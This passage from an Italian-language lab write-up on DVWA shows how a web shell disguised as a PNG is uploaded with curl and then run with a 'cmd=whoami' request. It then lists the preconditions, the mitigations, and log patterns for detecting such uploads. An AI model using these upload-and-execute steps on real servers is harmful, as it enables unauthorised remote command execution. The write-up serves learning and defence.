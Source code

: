 **Step 4 - Shell Upload**:
```bash
# Upload della shell
curl -v \
-b "PHPSESSID=session_id_456" \
-F "uploaded=@shell.png;type=image/png" \
-F "Upload=Upload" \
http://192.168.1.100/DVWA/vulnerabilities/upload/
```

**Step 5 - Verification**:
```bash
# Test della web shell
curl "http://192.168.1.100/DVWA/hackable/uploads/shell.png?cmd=whoami"
# Expected output: www-data
```

#### Security Implications

**Requirementi per il successo**:
1. **Directory upload accessibile**: Apache deve servire file dalla directory
2. **AllowOverride abilitato**: Apache deve permettere override delle configurazioni
3. **Mod_mime attivo**: Modulo Apache per gestione MIME types
4. **Permessi scrittura**: La directory deve permettere scrittura per www-data

**Mitigazioni esistenti**:
- **AllowOverride None**: Disabilita completamente l'uso di .htaccess
- **Upload in directory non servita**: File caricati fuori dal document root
- **Filtering .htaccess**: Blacklist esplicita per file .htaccess

---

## Defensive Analysis e Detection Mechanisms

### Server-Side Detection Patterns

Durante il testing sono stati identificati diversi pattern che potrebbero essere utilizzati per detection:

#### HTTP Traffic Analysis

**Suspicious Upload Patterns**:
```bash
# Pattern di richieste sospette identificate nei log
POST /dvwa/vulnerabilities/upload/ HTTP/1.1
Content-Type: multipart/form-data
Content-Disposition: form-data; name="uploaded"; filename="shell.phtml"
Content-Type: image/png    # ← MIME spoofing indicator
```

**Behavioral Indicators**:
1. **Content-Type mismatch**: Estensione non corrisponde al MIME type
2. **Suspicious filenames**: Nomi come "shell", "backdoor", "cmd"
3. **Multiple upload attempts**: Tentativi ripetuti con file diversi
4. **Session anomalies**: Upload seguiti immediatamente da accesso ai file
